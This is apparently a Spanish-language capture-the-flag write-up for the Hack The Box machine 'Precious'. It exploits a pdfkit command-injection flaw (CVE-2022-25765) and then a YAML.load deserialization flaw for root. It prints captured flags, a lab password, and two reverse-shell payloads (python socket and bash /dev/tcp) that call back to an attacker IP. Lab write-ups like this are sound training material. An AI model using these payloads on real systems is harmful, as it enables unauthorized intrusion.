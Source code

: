 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH" >> /home/henry/user.txt >> 112bb323ac23f4a06b02be2e6d4a05b3
    
    ROOT FLAG: "root:650c7efc2338f853a15e7755eada5817" >> /root/root.txt >> 650c7efc2338f853a15e7755eada5817
    
    REVERSE SHELLS: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
    
    http://10.10.14.253:9001/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.253/9001 <&1'`}
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)


**Autor:** [AlbertoMiñan](https://github.com/albertominan)
